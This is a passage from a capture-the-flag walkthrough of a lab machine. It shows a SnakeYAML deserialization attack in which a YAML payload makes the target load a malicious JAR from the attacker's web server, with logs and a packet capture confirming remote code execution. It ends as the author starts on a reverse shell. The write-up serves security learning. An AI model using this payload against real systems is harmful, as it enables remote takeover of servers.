 The resulting JAR file has a similar structure as was being requested across multiple requests in the first attempt:

```

oxdf@parrot$ jar -tf ping.jar 
META-INF/
META-INF/MANIFEST.MF
artsploit/
artsploit/AwesomeScriptEngineFactory.class
artsploit/AwesomeScriptEngineFactory.java
META-INF/services/
META-INF/services/javax.script.ScriptEngineFactory
oxdf@parrot$ cat src/META-INF/services/javax.script.ScriptEngineFactory 
artsploit.AwesomeScriptEngineFactory

```

I’ll move `ping.jar` into my directory hosted by the Python webserver, and send the payload:

```

!!javax.script.ScriptEngineManager [
  !!java.net.URLClassLoader [[
    !!java.net.URL ["http://10.10.14.7/ping.jar"]
  ]]
]

```

First it’s requested from the HTTP server (twice for some reason):

```
10.10.10.227 - - [15/Feb/2021 07:16:58] "GET /ping.jar HTTP/1.1" 200 -
10.10.10.227 - - [15/Feb/2021 07:16:58] "GET /ping.jar HTTP/1.1" 200 -

```

Then it pings my VM:

```

oxdf@parrot$ sudo tcpdump -i tun0 -n icmp
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
07:16:58.677743 IP 10.10.10.227 > 10.10.14.7: ICMP echo request, id 3, seq 1, length 64
07:16:58.677755 IP 10.10.14.7 > 10.10.10.227: ICMP echo reply, id 3, seq 1, length 64

```

That’s RCE.

### Rev Shell

Getting a reverse shell from here wasn’t trivial. I think this is typically of Java. I tried several Java reverse shells, and putting typical Bash and `nc` based shells into the `Runtime.getRuntime().exec()`. Nothing worked.
